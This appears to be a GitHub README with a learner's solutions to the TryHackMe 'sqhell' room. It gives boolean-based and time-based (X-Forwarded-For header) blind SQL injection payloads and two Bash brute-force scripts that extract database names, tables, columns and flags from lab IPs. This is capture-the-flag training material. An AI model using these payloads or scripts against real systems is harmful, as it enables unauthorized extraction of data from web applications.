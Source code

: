 > Repository created to showcase the queries and scripts developed to solve and obtain the flags of the tryhackme | sqhell machine (https://tryhackme.com/room/sqhell), specifically the flags that required the use of SQL injection techniques: 'Time-based' > X-Forwarded-For and 'Boolean-based'. I want to clarify that I am currently learning about these vulnerabilities and scripting in Bash, so any recommendations and assistance are highly appreciated.

# Blind SQL Injection > ‘Boolean based’

## Determine the length of DB: 
> 
```sql
> admin' AND LENGTH(DATABASE())=8-- - 
> we can try with time sleep to confirm this:
> admin' AND LENGTH(DATABASE())=8 and sleep(20)-- -
```

## Extracting the database name:
```sql
admin' and (select substr(database(),1,1))='s'-- -
```

## Use this bash script to extract Database, tables, columns, and the flag. Just change the payload and total_positions(the length):
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.68.51/register/user-check?username=admin"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '{' '}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}
            payload="%27%20and%20(select%20substr(database(),$position,1))=%27$character%27--%20-"
            url_payload=$main_url$payload
            response=$(curl -s "$url_payload")
            echo -ne "\r\033[1;34m[+] Retrieving data:[\033[0m$database$character]"

            if [[ $response == *"false"* ]]; then
                database+=$character
                break
            fi

        done
       
    done

    echo -e "\n\033[1;32mData found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
admin' and (select substr(table_name,1,1) from information_schema.tables where table_schema='sqhell_3' limit 1)='f'-- -
```
## Check columns:
```sql
admin' and (select substr(column_name,1,1) from information_schema.columns where table_schema='sqhell_3' and table_name='flag' limit 1,1)='f'-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
admin' and (select substr(flag,1,1) from flag limit 1)='t'-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> admin' and (select length(flag) from flag limit 1)=43-- -
```

# Blind SQL Injection > ‘Time based’ > X-Forwarded-For

## Determine the length of DB: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND LENGTH(DATABASE())=8-- -
```

## Extracting the database name:
```sql
X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), 1, 1))='s'-- -
```

## Use this bash script to extract Database, tables, columns, and the flag. Just change the payload:
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.65.29"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '\{' '\}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}

            payload="1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), $position, 1))='$character'-- -"
            #url_payload=$main_url$payload
            echo -ne "\r\033[1;34m[+] Extracting the database name:[\033[0m$database$character]"
            time_start=$(date +%s.%N)
            response=$(curl -s -H "X-Forwarded-For:$payload" "$main_url")
            time_stop=$(date +%s.%N)

            duration=$(echo "$time_stop - $time_start" | bc )


            if (( $(echo "$duration >= 5" | bc -l) )); then
                database+="$character"
                break
            fi

        done

    done

    echo -e "\n\033[1;32mdatabase found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.tables WHERE table_schema='sqhell_1' AND SUBSTR(table_name, 1, 1) = 'f')-- -
```
## Check columns:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.columns WHERE table_schema='sqhell_1' and table_name='flag' AND SUBSTR(column_name, 1, 1) = 'f')-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```
